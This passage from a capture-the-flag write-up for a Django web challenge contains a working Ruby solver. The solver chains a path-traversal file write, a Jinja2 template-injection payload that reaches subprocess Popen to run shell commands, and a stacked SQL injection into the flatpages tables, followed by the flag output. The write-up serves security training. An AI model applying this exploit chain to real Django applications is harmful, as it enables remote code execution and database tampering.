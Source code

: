 last piece is where to write the template to, these are the enabled apps:
```py
INSTALLED_APPS = [
    'django.contrib.auth',
    'django.contrib.contenttypes',
    'django.contrib.sessions',
    'django.contrib.messages',
    'django.contrib.staticfiles',
    'django.contrib.sites',
    'pipeline',
    'django.contrib.flatpages',
    "corsheaders",
    'rest_framework',
    'app'
]
```

only `pipeline` has a `jinja2` templates directory. so this is where we are going to write our template to.

```
web@3c73e82bb493:/app$ ls /home/web/.local/lib/python3.11/site-packages/{pipeline,corsheaders,rest_framework,django}/jinja2
ls: cannot access '/home/web/.local/lib/python3.11/site-packages/corsheaders/jinja2': No such file or directory
ls: cannot access '/home/web/.local/lib/python3.11/site-packages/rest_framework/jinja2': No such file or directory
ls: cannot access '/home/web/.local/lib/python3.11/site-packages/django/jinja2': No such file or directory
/home/web/.local/lib/python3.11/site-packages/pipeline/jinja2:
__init__.py  __pycache__  pipeline
web@3c73e82bb493:/app$
```

## [solver.rb](solver.rb):

```rb
require 'http'

puts HTTP.basic_auth(:user => "guest", :pass => "guest").headers(:Token => "asdf").post("http://10.25.1.156:8000/api/webframeworks/add", :json => {:filename => "#{"/proc/self/root"*21}/home/web/.local/lib/python3.11/site-packages/pipeline/jinja2/temp.html", :content => "AHA!  {%- for cls in ''.__class__.mro()[1].__subclasses__() -%} {%- if 'Popen' in cls.__name__ -%} {{ cls('cat /flag_*',shell=True,stdout=-1).communicate()[0].strip().decode() }} {%- endif -%} {%- endfor -%}"})

sql = "true'; WITH flatpage AS (INSERT INTO django_flatpage (url, title, content, enable_comments, template_name, registration_required) VALUES (convert_from(decode('2F3078343034', 'hex'), 'UTF8'), 'a', 'a', false, 'temp.html', false) RETURNING id), site AS (INSERT INTO django_site (domain, name) VALUES ('10.25.1.156:8000', 'web.akasec.club') ON CONFLICT (domain) DO UPDATE SET domain = django_site.domain RETURNING id) INSERT INTO django_flatpage_sites (flatpage_id, site_id) SELECT flatpage.id, site.id FROM flatpage, site;-- "

HTTP.basic_auth(:user => "guest", :pass => "guest").headers(:Token => "asdf").get("http://10.25.1.156:8000/api/experiences/setHot/12/#{sql}")
puts HTTP.get("http://10.25.1.156:8000#{%w{2F3078343034}.pack('H*')}")
```

```bash
+:~/CTF-Writeups/CyberOdyssey2024 Finals [Author]/WEB/WEBWEBWEB$ ruby solver.rb 
{"message":"OK!"}
AHA!ODYSSEY{|_+_WEB_WAB_WOB_+_|}
```
